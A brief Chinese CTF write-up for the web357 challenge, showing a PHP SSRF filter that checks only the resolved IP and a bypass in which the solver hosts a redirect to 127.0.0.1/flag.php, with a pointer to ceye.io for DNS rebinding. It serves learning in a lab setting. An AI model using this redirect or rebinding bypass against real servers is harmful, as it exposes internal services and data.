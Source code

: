 ## web357(DNS重新绑定,302跳转)

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$ip = gethostbyname($x['host']);
echo '</br>'.$ip.'</br>';
if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
    die('ip!');
}


echo file_get_contents($_POST['url']);
}
else{
    die('scheme');
}
?> 
```

> filter_var — 使用特定的过滤器过滤一个变量
>
> 验证ip是否是内网ip，如果是的话返回false，否则返回ip；
>
> 代码如下：
>
> filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)
>
> gethostbyname — 返回主机名对应的 IPv4地址.
>
> ```php
> <?php
> $ip = gethostbyname('www.baidu.com');
> echo $ip;
> ```
>

payload

在自己服务器上写

```php
<?php
header("Location:http://127.0.0.1/flag.php"); 
```

访问文件

访问`http://ceye.io`
